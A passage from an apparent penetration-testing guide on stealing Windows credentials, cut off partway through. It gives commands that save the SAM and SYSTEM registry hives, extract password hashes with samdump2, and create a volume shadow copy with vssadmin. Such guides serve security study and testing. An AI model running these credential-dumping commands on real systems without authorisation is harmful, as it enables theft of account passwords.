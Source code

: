This files should be **located **in *C:\windows\system32\config\SAM* and *C:\windows\system32\config\SYSTEM. *But **you cannot just copy them in a regular way **because they protected.

##

From Registry[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2203'%3e%3cg data-evernote-id='2204' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='2205' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='2206' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://book.hacktricks.xyz/windows/stealing-credentials#from-registry)

The easiest way to steal those files is to get a copy from the registry:

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2214'%3e%3cg data-evernote-id='2215' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='2216' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='2217' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

42reg save HKLM\sam sam
43reg save HKLM\system system
**Download **those files to your Kali machine and **extract the hashes** using:

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2237'%3e%3cg data-evernote-id='2238' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='2239' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='2240' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

samdump2 SYSTEM SAM

##

Volume Shadow Copy[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2252'%3e%3cg data-evernote-id='2253' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='2254' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='2255' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://book.hacktricks.xyz/windows/stealing-credentials#volume-shadow-copy)

You can perform copy of protected files using this service. You need to be Administrator.

###

Using vssadmin[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2267'%3e%3cg data-evernote-id='2268' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='2269' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='2270' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://book.hacktricks.xyz/windows/stealing-credentials#using-vssadmin)

vssadmin binary is only available in Windows Server versions

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2278'%3e%3cg data-evernote-id='2279' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='2280' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='2281' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

45vssadmin create shadow /for=C:
46#Copy SAM
